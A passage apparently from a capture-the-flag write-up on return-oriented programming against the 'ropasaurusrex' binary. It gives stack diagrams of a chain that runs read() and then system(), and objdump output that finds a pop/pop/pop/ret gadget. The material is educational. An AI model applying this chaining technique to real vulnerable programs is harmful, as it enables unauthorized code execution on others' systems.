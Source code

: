 ```
+----------------------+
|        int fd        |
+----------------------+
| (address of "pppr")  |
+----------------------+

+----------------------+
|        [...]         |
+----------------------+
```

Then when it returns, we're exactly where we want to be:

```

+----------------------+
|        [...]         |
+----------------------+

+----------------------+ <-- Start of system()'s frame
|      void *arg       |
+----------------------+
|   [return address]   | <-- stack pointer
+----------------------+

+----------------------+ <-- pop/pop/pop/ret's frame
| [address of system]  |
+----------------------+

+----------------------+ <-- Start of read()'s frame
|     size_t count     |
+----------------------+
|      void *buf       |
+----------------------+
|        int fd        |
+----------------------+
| (address of "pppr")  |
+----------------------+

+----------------------+
|        [...]         |
+----------------------+
```

Finding a pop/pop/pop/ret is pretty easy using objdump:

```

<span class="lnr">1 </span>$ <span class="Identifier">objdump</span> -<span class="Identifier">d</span> ./<span class="Identifier">ropasaurusrex</span> <span class="Comment">| egrep 'pop|ret'</span>
<span class="lnr">2 </span>[...]
<span class="lnr">3 </span> <span class="Constant">80484b5</span>:       <span class="Constant">5b</span>                      <span class="Identifier">pop</span>    <span class="Identifier">ebx</span>
<span class="lnr">4 </span> <span class="Constant">80484b6</span>:       <span class="Constant">5e</span>                      <span class="Identifier">pop</span>    <span class="Identifier">esi</span>
<span class="lnr">5 </span> <span class="Constant">80484b7</span>:       <span class="Constant">5f</span>                      <span class="Identifier">pop</span>    <span class="Identifier">edi</span>
<span class="lnr">6 </span> <span class="Constant">80484b8</span>:       <span class="Constant">5d</span>                      <span class="Identifier">pop</span>    <span class="Identifier">ebp</span>
<span class="lnr">7 </span> <span class="Constant">80484b9</span>:       <span class="Identifier">c3</span>                      <span class="Identifier">ret</span>
```